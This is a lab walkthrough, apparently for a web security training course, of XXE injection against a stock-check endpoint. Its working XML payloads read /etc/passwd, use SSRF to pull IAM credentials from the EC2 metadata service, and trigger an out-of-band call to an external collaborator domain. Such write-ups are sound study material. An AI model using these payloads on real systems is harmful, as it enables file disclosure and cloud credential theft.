 # Exploiting XXE using external entities to retrieve files
- Exploit XXE to retrieve `/etc/passwd` file
1. View a product and check the stock
2. POST `/product/stock` sends an XML request specifying product and store ID
3. Create XML entity and see if your created entity is reflected
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY POC "XML_INJECTION_IS_WORKING">
]>
<stockCheck><productId>&POC;</productId><storeId>
&POC;</storeId></stockCheck>
```
4. Receive the following error message confirming XML entity referencing is working and reflected to us
- "Invalid product ID: XML_INJECTION_IS_WORKING"
5. Read `/etc/passwd`
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck><productId>&xxe;</productId><storeId>
1</storeId></stockCheck>
```
# Exploiting XXE to perform SSRF attacks
- Exploit XXE to perform SSRF and obtain server's IAM secret key from EC2 metadata endpoint `http://169.254.169.254/`
1. View product and check the stock
2. POST `/product/stock` sends an XML request specifying product and store ID
3. Create XML entity and make a SSRF request to the internal target given above
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
4. The response gives us "Invalid product ID: latest"
5. Append this to the URL of our target payload
```
http://169.254.169.254/latest
```
6. Response gives us "iam"
7. Repeat process until URL is complete
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/admin
```
8. Access to admin credential in response
# Blind XXE with out-of-band interaction
- Trigger out-of-band interactions with an external domain
1. View product and check the stock
2. POST `/product/stock` sends an XML request specifying product and store ID
3. Create XML entity and make a OOB request to the collaborator
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://5djg9njnz8rspgmiuil63744wv2mqee3.oastify.com"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
- **Note:** Stuck for a bit, triggering error "Entities are not allowed for security reasons" - This was occurring because I was using `%` to create parameter entities which was blocked by the application